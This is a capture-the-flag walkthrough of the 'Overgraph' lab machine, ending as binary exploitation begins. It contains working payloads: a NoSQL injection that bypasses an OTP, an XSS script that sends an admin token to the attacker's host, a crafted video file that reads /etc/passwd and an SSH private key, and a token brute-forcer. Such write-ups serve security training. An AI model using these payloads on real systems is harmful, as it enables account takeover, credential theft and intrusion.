# Overgraph
## Enumeration
### Nmap
Scan all ports open:
```bash
$ sudo nmap -p- --min-rate=1000 -T4 10.10.11.157

Nmap scan report for 10.10.11.157
Host is up (0.27s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Scan services on open ports:
```bash
$ sudo nmap -sC -sV -p 22,80 10.10.11.157

Nmap scan report for 10.10.11.157
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 34:a9:bf:8f:ec:b8:d7:0e:cf:8d:e6:a2:ce:67:4f:30 (RSA)
|   256 45:e1:0c:64:95:17:92:82:a0:b4:35:7b:68:ac:4c:e1 (ECDSA)
|_  256 49:e7:c7:5e:6a:37:99:e5:26:ea:0e:eb:43:c4:88:59 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://graph.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that the machine is running a web server on port 80 and redirect us to `graph.htb`. Lets add the DNS entry to our `/etc/hosts` file:
```
10.10.11.157    graph.htb
```

### Port 80
Going to http://graph.htb didnt give us much information to attack. Lets run a VHOST bruteforce to check if there is anything else:
```bash
$ gobuster vhost -u graph.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://graph.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/06/17 08:21:54 Starting gobuster in VHOST enumeration mode
===============================================================
Found: internal.graph.htb (Status: 200) [Size: 607]
                                                   
===============================================================
2022/06/17 08:24:12 Finished
===============================================================
```

We have a new VHOST: `internal.graph.htb`
Lets add it to our `/etc/hosts` file too:
```
10.10.11.157    graph.htb internal.graph.htb
```

We browse to http://internal.graph.htb and we get a login page:


Default credentials don't work.
We find the registration endpoint at http://internal.graph.htb/register:

As we can see, it is expecting an email from the domain `@graph.htb`.

When we try to register `test@graph.htb` email we can use Burp to intercept the request and see that it is making a POST request to `/api/code` in the `internal-api.graph.htb` host name:

Add it to the `/etc/hosts` file and try again.

Good! We get the response:
```json
{"result":"4 digit code sent to your email"}
```

And now what?  Decided to run gobuster in the `/api` endpoint:
```bash
$ gobuster dir -u http://internal-api.graph.htb/api/ -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -m POST

===============================================================
2022/06/17 09:11:45 Starting gobuster in directory enumeration mode
===============================================================
/code                 (Status: 200) [Size: 40]
/register             (Status: 200) [Size: 36]

$ gobuster dir -u http://internal-api.graph.htb/api/ -w /usr/share/seclists/Discovery/Web-Content/api/actions-lowercase.txt -m POST

===============================================================
2022/06/17 09:13:56 Starting gobuster in directory enumeration mode
===============================================================
/register             (Status: 200) [Size: 36]
/verify               (Status: 200) [Size: 26]
```

After a lot of try and error to find out how the API works I got the following:
1. We need to send a email to `/code`, it will ask for the OTP
2. We send the OTP via `/verify` endpoint
3. After verified we can `/register` email and password

The only problem was, there is no way we can get an OTP to send in the step 2. The trick here was to use NOSQL injection to bypass the code verification.

## Exploitation
### Bypass Login
First we send a POST request to `/api/code` with the email we want to login:
```json
{"email":"caue@graph.htb"}
```
Response:
```json
{"result":"4 digit code sent to your email"}
```

Then we need to send the OTP to `/api/verify` with NOSQL injection to bypass:
```json
{"email":"caue@graph.htb","code":{"$ne":"1234"}}
```
Response:
```json
{"result":"Email Verified"}
```

For last, we send our email and password to `/api/register`:
```json
{"email":"caue@graph.htb","password":"password","confirmPassword":"password","username":"caue"}
```
Response:
```json
{"result":"Account Created Please Login!"}
```

Now we can go to the login page and login with our credentials!

### CSRF - Steal admin token
As we login to the page we can see a message in the chat:


It seems to be the admin asking us to send a link to verify that we are a valid user from the organisation.

Another thing to note is that the field "First Name" and "Last Name" in the Profile page are vulnerable to XSS. We can update our first name to:
```JavaScript
{{$on.constructor('alert("XSS")')()}}
```
It wil trigger the XSS:


An interesthing this to note is the POST request sent to `/graphql` when we update the profile:
```json
{
    "operationName": "update",
    "variables": {
        "firstname": "{{$on.constructor('alert(\"XSS\")')()}}",
        "lastname": "null",
        "id": "62abdc0aa77046041da68167",
        "newusername": "caue"
    },
    "query": "mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {\n  update(\n    newusername: $newusername\n    id: $id\n    firstname: $firstname\n    lastname: $lastname\n  ) {\n    username\n    email\n    id\n    firstname\n    lastname\n    __typename\n  }\n}"
}
```

We now know that the web app is using graphql and also the syntax needed to change the profile details.
Going to http://internal-api.graph.htb/graphql we have a code playground:

Lets move one with enumerating the path to steal the adminToken, we will be using more of this later.

Looking in the JavaScript files we find the token we need to steal:

Its the `adminToken` from the localStorage!

There is another piece of the puzzle in the http://graph.htb/, an open redirect vulnerability:

We can use this to send the link to the admin in the chat later.

**Chaining all the vulnerabilities:**
The plan is to change the admin "First Name" to the XSS that will send us the adminToken. As we saw previously the syntax to change the profile details requires the user ID, and the user name. 
We can use the code playground at `/graphql` to retrieve the admin ID, in my case "Sally" user.


Great! Lets construct the attack:
```JavaScript steal-admin-token.js
var request = new XMLHttpRequest();
request.open('POST','http://internal-api.graph.htb/graphql', false);
request.setRequestHeader("Content-Type", "text/plain");
request.withCredentials = true;
request.send(JSON.stringify({operationName: 'update',variables: {firstname: "{{$on.constructor('new Image().src=\"http://10.10.14.2/?a=\" + window.localStorage.getItem(\"adminToken\");')()}}",lastname: 'null',id: '62abe72aa6d27a07b20d9653',newusername: 'Sally'},query: 'mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername: $newusername, id: $id, firstname: $firstname, lastname:$lastname){username,email,id,firstname,lastname,adminToken}}'}));
```

The above is what we need the admin to execute in his browser. Now we can send all this using the open redirect vulnerability and sending the link in the chat.

1. Base64 encode all this payload above:

2. Start a python web server in our machine.
```bash
$ sudo python3 -m http.server 80                                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
3. Use the open redirect vuln:
```bash
# Make sure you urlencode the equal signs "=", if any...
http://graph.htb/?redirect=javascript:eval(atob("c3RlYWxfYWRtaW5Ub...%3d"))
```

Send this link in the chat and wait a minute to receive the admin token:

Add the adminToken to our local storage in the browser, change the `admin` to true and refresh the page:


As the page refresh we get a new option in the menu - Uploads:


### FFmpeg SSRF + LFI
It seems that we can upload videos of type avi, mp4, mkv and webm. Doing a bit of research we find that [this hackerone report](https://hackerone.com/reports/1062888) that explains an External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing in TikTok app. The POC is well described so we can combine that with [this exploit](https://github.com/0xcoyote/FFmpeg-HLS-SSRF) to retrieve files from the target.
Create the file `video.avi`:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.4/initial.m3u?filename=/etc/passwd
#EXT-X-ENDLIST
```
When we upload this file, it will make a call to http://10.10.14.4/initial.m3u?filename=/etc/passwd where we will prepare a server to extract the file passed in the argument.

Git clone and run the server:
```bash
$ git clone https://github.com/0xcoyote/FFmpeg-HLS-SSRF
$ cd FFmpeg-HLS-SSRF
$ python3 server.py --external-addr 10.10.14.4 --port 80
```

Submit the `video.avi` file in the web page and wait to the server to extract the file data. Once it is done, the tool will save the output into a file, but without line breaks, so we need to format ourselfs:
```
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:103:106::/nonexistent:/usr/sbin/nologinsyslog:x:104:110::/home/syslog:/usr/sbin/nologin_apt:x:105:65534::/nonexistent:/usr/sbin/nologintss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/falseuuidd:x:107:112::/run/uuidd:/usr/sbin/nologintcpdump:x:108:113::/nonexistent:/usr/sbin/nologinlandscape:x:109:115::/var/lib/landscape:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falseusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinsshd:x:112:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinuser:x:1000:1000:user:/home/user:/bin/bashlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/falsemongodb:x:113:118::/var/lib/mongodb:/usr/sbin/nologin
```

The output of `/etc/passwd` reveals the user `user` is present, have a home directory and a `/bin/bash` shell. We should target him and try to extract his SSH keys. We change the `video.avi` file to:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.4/initial.m3u?filename=/home/user/.ssh/id_rsa
#EXT-X-ENDLIST
```
Upload again!

Cool, we got the SSH key of `user`, we can use it to SSH in now, we just need to add the line breaks formating the file and give its permissions:
```bash
$ chmod 600 user.idrsa
$ ssh -i user.idrsa user@10.10.11.157
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 17 Jun 2022 03:19:53 AM UTC

  System load:           0.0
  Usage of /:            68.8% of 4.84GB
  Memory usage:          11%
  Swap usage:            0%
  Processes:             220
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.157
  IPv6 address for eth0: dead:beef::250:56ff:feb9:e23c

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jun 16 23:51:10 2022 from 10.10.14.4
user@overgraph:~$
```

## Privilege Escalation
### Enumeration
Enumerating the machine we see a socat process running as root:
```bash
user@overgraph:~$ ps -ef | grep root
...[SNIP]...
root 953 950  0 Jun16 ?        00:00:00 /bin/sh -c sh -c 'socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr'
root 955 953  0 Jun16 ?        00:00:00 sh -c socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
root 956 955  0 Jun16 ?        00:00:00 socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
...[SNIP]...
```

It is a custom application:
```bash
user@overgraph:/usr/local/bin/Nreport$ ls -la
total 40
drwxr-xr-x 3 root root  4096 Apr 12 17:38 .
drwxr-xr-x 3 root root  4096 Apr 12 17:38 ..
drwxr-xr-x 2 root root  4096 Feb 14 18:31 libc
-rwxr-xr-x 1 root root 26040 Feb 14 12:30 nreport

user@overgraph:/usr/local/bin/Nreport$ ./nreport 
Custom Reporting v1

Enter Your Token: test
Invalid Token
```

Lets download the binary and the libc folder to our machine:
```bash
# Kali - Receiver
$ nc -l -p 1234 > nreport

# Target - Sender
$ nc -w 3 10.10.14.4 1234 < /usr/local/bin/Nreport/nreport
...[SNIP]...
```

### Binary Exploitation - Code Analyses
First we see that the binary is linked to the libc so we will need to patch:
```bash
$ checksec ./nreport                  
[*] '/home/caue/htb/overgraph/binary/nreport'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'/usr/local/bin/Nreport/libc/'

$ ldd ./nreport 
        linux-vdso.so.1 (0x00007fffe98fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f2dc3ff2000)
        /usr/local/bin/Nreport/libc/ld-2.25.so => /lib64/ld-linux-x86-64.so.2 (0x00007f2dc41e9000)
```

We can use [Pathelf tools](https://github.com/NixOS/patchelf) to do the job:
```bash
$ patchelf --set-interpreter `pwd`/libc/ld-2.25.so --set-rpath `pwd`/libc/ nreport
```

We can check that now is using the right libc:
```bash
$ checksec nreport
[*] '/home/caue/htb/overgraph/binary/nreport'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)
    RUNPATH:  b'/home/caue/htb/overgraph/binary/libc/'

$ ldd ./nreport 
        linux-vdso.so.1 (0x00007fffcc9e5000)
        libc.so.6 => /home/caue/htb/overgraph/binary/libc/libc.so.6 (0x00007f08c6ad2000)
        /home/caue/htb/overgraph/binary/libc/ld-2.25.so => /lib64/ld-linux-x86-64.so.2 (0x00007f08c6e71000)
```

We try to run the binary but it asks for a token that we don't know.
Open the binary in Ghidra to have a look at the functions.
```c main()
void main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_13 [3];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("Custom Reporting v1\n");
  auth();
  printf("\nWelcome %s",userinfo1);
  do {
    puts(
        "\n1.Create New Message\n2.Delete a Message\n3.Edit Messages\n4.Report All Messages\n5.Exit"
        );
    printf("> ");
    __isoc99_scanf(" %1[^\n]",local_13);
    iVar1 = atoi(local_13);
    switch(iVar1) {
    case 1:
      create();
      break;
    case 2:
      delete();
      break;
    case 3:
      edit();
      break;
    case 4:
      report();
      break;
    case 5:
      system(userinfo1 + 0x28);
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```

We see the main function prints the "Custom Reporting" banner and then calls `auth()`. Lets see this function:
```c auth()
...[SNIP]...
  printf("Enter Your Token: ");
  fgets(userinfo1 + 0x78,0x13,stdin);
  sVar1 = strlen(userinfo1 + 0x78);
  if (sVar1 != 0xf) {
    puts("Invalid Token");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  for (local_4c = 0xd; -1 < local_4c; local_4c = local_4c + -1) {
    *(uint *)((long)&local_48 + (long)local_4c * 4) =
         *(uint *)(secret + (long)local_4c * 4) ^ (int)userinfo1[121] ^ (int)userinfo1[122] ^
         (int)userinfo1[120] ^ (int)userinfo1[129] ^ (int)userinfo1[133];
  }
  if ((int)local_40 + (int)local_48 + local_48._4_4_ != 0x134) {
    puts("Invalid Token");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (local_28._4_4_ + local_30._4_4_ + (int)local_28 != 0x145) {
    puts("Invalid Token");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (local_18._4_4_ + local_20._4_4_ + (int)local_18 != 0x109) {
    puts("Invalid Token");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
...[SNIP]...
```

First it checks if the input is 15 bytes. Then it just take 5 bytes from it and make xor with `secret`.
Reverse engineering this in python:
```python
st = 65
sp = 127
def check():
    for a in range(st,sp):
        for b in range(st,sp):
            for c in range(st,sp):
                for d in range(st,sp):
                    for e in range(st,sp):
                        xor = a ^ b ^ c ^ d ^ e
                        if (xor ^ 0x12) + (xor^0x1) + (xor ^ 0x12) == 0x134:
                            if (xor ^ 0x16) + (xor ^ 0x7) + (xor ^ 0x1f) == 0x145:
                                if (xor ^ 0x0) + (xor ^ 0x40) + (xor ^ 0x10) == 0x109:
                                    print "a is : " + chr(a)
                                    print "b is : " + chr(b)
                                    print "c is : " + chr(c)
                                    print "d is : " + chr(d)
                                    print "e is : " + chr(e)
                                    exit()
check()
```
It will generate the token from `secret`.
```bash
$ python2 bypass-token.py
a is : A
b is : A
c is : A
d is : A
e is : s
```

So the token is `AAAAAAAAAAAAAs`. It has 14 characters as the last one is `\n` in a total of 15 bytes.
Running again we see the options:
```bash
$ ./nreport
